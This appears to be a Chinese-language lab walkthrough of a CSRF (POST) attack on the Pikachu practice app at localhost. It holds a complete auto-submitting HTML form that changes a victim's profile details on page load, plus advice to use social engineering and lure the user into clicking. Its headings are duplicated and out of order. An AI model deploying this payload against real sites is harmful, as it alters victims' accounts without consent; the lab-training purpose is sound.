 

#### 第二步：获取修改提交的URL

#### 第四步：将构造的URL诱骗用户点击

### CSRF(POST)

> 
<h4> 第一步：是要获得用户修改提交的URL</h4>
这个可以自己先提交一遍，尝试能不能分析出，不行就尝试社工




<h4>第二步：构造恶意执行语句</h4>

<pre><code>&lt;html&gt;
&lt;head&gt;
&lt;script&gt;
window.onload = function() {
  document.getElementById("postsubmit").click();
}
&lt;/script&gt;
&lt;/head&gt;
&lt;body&gt;
&lt;form method="post" action="http://localhost:8080/pikachu-master/vul/csrf/csrfpost/csrf_post_edit.php"&gt;
    &lt;input id="sex" type="text" name="sex" value="girl" /&gt;
    &lt;input id="phonenum" type="text" name="phonenum" value="1111111" /&gt;
    &lt;input id="add" type="text" name="add" value="广州" /&gt;
    &lt;input id="email" type="text" name="email" value="111111111" /&gt;
    &lt;input id="postsubmit" type="submit" name="submit" value="submit" /&gt;
&lt;/form&gt;
&lt;/body&gt;
&lt;/html&gt;</code></pre>


<h4>第三步：诱导用户点击</h4>
就已经执行了修改操作了




#### 第二步：构造恶意执行语句
